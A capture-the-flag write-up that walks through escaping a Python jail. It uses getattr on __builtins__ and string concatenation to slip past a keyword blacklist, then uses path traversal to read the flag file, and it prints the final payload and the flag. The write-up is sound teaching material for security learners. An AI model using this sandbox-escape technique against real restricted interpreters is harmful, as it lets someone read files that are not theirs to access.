

# "as" "df"



In this challenge, we are given access to a server running a python interface.

```
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: 
```

In order to begin crafting an exploit, we should first figure out what properties and methods we have access to. We can do that with the `dir()` command.

Running `print(dir())` returns:

```python
Enter command: print(dir())
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'sys', 'user_input']
```

We can see the property `blacklist`. It would be helpful to figure out what exactly is blacklisted.

```python
Enter command: print(blacklist)
('eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', ';', '+', 'ord', 'chr', 'base', 'flag', 'replace', ' ', 'decode', 'join')
```

Those important methods `open()` and `read()` are blacklisted. We can use pass the objects we have access to, to `dir` to look for tools to bypass these restrictions. When we look in `__builtins__` we can see we have access to `getattr()`. `getattr()` can be used with two arguments to access an attribute of a object. For example: `getattr(__builtins__,"open")`. This is the first step to regaining access to those two important methods. Still, we can't send the word `open` or use `+` to obfuscate it. Luckily if we look in `__file__`, we can see the `__add__` command is available.

```python
Enter command: print(dir(__file__))
['__add__', '__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'capitalize', 'casefold', 'center', 'count', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'format_map', 'index', 'isalnum', 'isalpha', 'isascii', 'isdecimal', 'isdigit', 'isidentifier', 'islower', 'isnumeric', 'isprintable', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'maketrans', 'partition', 'removeprefix', 'removesuffix', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```

Now, we have all we need for the exploit.
First, we call `open()`. We can use `getattr()` to access `open()` from `__builtins__` like this: `getattr(__builtins__,"op".__add__("en")`.

This will return the function, so we need to pass it the parameters _path_ and _mode_. We don't know where the current working directory is relative to the root so we can just add a lot of `../`'s to keep moving towards the root. We don't have to worry about having too many since you can't move up from the root. 

Our exploit so far is: 

```python
getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r')
```

Next, open will return a file handle so we need to call the read function. We can use `getattr()` again, passing the file handle as the first parameter and `read()` as the second. Our exploit now looks like this:

```python
getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))()
```

Finally wrap it in a `print()` and we are set!

#### Final exploit:

```python
Enter command: print(getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))())
SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}
```